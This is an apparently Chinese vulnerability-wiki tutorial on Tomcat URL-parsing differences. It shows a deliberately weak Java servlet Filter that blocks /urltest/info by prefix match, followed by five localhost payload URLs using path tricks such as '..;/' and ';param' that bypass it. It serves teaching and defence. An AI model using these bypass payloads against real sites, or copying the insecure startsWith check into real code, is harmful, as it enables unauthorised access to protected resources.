


# Tomcat URL 解析差异性攻击利用

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：应用用getRequestURI和startsWith实现自定义拒绝规则；具体容器、代理和客户端规范化行为须匹配
- 证据范围：演示点是自定义Filter的路径比较，不是已确证Tomcat内置认证漏洞。示例仅阻止前缀访问，没有实际身份认证流程。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺Tomcat/Servlet版本和上游代理/客户端规范化前提
- 引用前面的分析，显然属于拆分教学文章，缺原始完整来源
- 路径样例与结果依赖截图，未视检
- 应归教学/应用配置问题，不作独立无条件Tomcat漏洞

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

Tomcat URL 解析差异性攻击利用
-----------------------------

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Secret</title>
    </head>
    <body>
    username: mi1k7ea 
    password: 123456 
    address: china 
    phone: 13666666666 
    </body>
    </html>

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

    package filter;

    import javax.servlet.*;
    import javax.servlet.http.*;
    import java.io.IOException;

    public class testFilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

            String url = httpServletRequest.getRequestURI();

            if (url.startsWith("/urltest/info")) {
                httpServletResponse.getWriter().write("No Permission.");
                return;
            }

            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

    <?xml version="1.0" encoding="UTF-8"?>
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
             version="4.0">
        <filter>
            <filter-name>testFilter</filter-name>
            <filter-class>filter.testFilter</filter-class>
        </filter>
        <filter-mapping>
            <filter-name>testFilter</filter-name>
            <url-pattern>/*</url-pattern>
        </filter-mapping>
    </web-app>

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

    http://localhost:8080/urltest/./info/secret.jsp
    http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
    http://localhost:8080//urltest/info/secret.jsp

整个的过程大致如此，就是利用解析的差异性来绕过认证
